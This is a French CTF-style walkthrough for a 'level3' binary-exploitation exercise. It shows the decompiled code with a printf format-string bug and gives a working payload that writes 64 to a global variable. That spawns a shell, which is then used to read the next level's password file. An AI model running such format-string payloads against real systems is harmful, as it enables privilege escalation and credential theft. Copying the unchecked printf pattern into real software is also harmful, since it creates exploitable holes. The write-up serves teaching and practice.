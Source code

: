 ### README - Exploitation du programme `level3`

## Introduction

Nous avons un exécutable `level3` avec les options suivantes :

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

Lorsque nous l'exécutons, il lit l'entrée standard, l'affiche, puis quitte.

## Code Source Décompilé

Voici le code source décompilé du programme `level3` :

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if (m == 64) {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
// 804988C: using guessed type int m;

int __cdecl main(int argc, const char **argv, const char **envp) {
  return v();
}
```

## Analyse et Identification de la Vulnérabilité

La fonction `v()` utilise `fgets` pour lire l'entrée utilisateur dans un buffer, et `printf` pour afficher cette entrée. Cela rend le programme vulnérable aux attaques de format string.

La condition pour exécuter un shell est que la variable `m` soit égale à 64. En exploitant la vulnérabilité de chaîne de format, nous pouvons écrire la valeur 64 à l'adresse de `m`.

### Adresse de la variable `m`

L'adresse de la variable `m` est : `0x0804988c`.

## Exploitation de la Vulnérabilité

Nous allons utiliser une chaîne de format pour écrire la valeur 64 à l'adresse de `m`, puis déclencher l'exécution de `/bin/sh`.

### Construction du Payload

Le payload sera constitué de l'adresse de `m` suivie de la chaîne de format qui écrira la valeur 64.

### Génération du Payload

Utilisez la commande suivante pour générer et exécuter le payload :

```bash
python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
```

### Exécution du Payload

Utilisez le payload pour exploiter le programme `level3` :

```bash
cat /tmp/exploit - | ./level3
```

### Vérification

Après l'exploitation, nous devrions obtenir un shell :

```bash
whoami
level4
cat /home/user/level4/.pass
```

## Explication des Étapes

1. **Utilisation de la chaîne de format** :
   - La chaîne de format `%60x` remplit l'espace pour atteindre 64 caractères.
   - Le spécificateur `%4$n` écrit le nombre de caractères imprimés (64) à l'adresse de `m` fournie.

2. **Construction du Payload** :
   - Nous incluons l'adresse de `m` en little-endian, puis la chaîne de format pour écrire `64` à cette adresse.

3. **Exécution du Payload** :
   - Le payload est envoyé au programme `level3`, modifiant la valeur de `m` et déclenchant l'exécution de `/bin/sh`.

## Conclusion

En exploitant la vulnérabilité de chaîne de format, nous avons modifié la variable `m` pour obtenir un shell avec les privilèges de `level4`. Cette approche a permis de contourner les protections et de lire le flag pour le niveau suivant.

Level3 passé avec succès !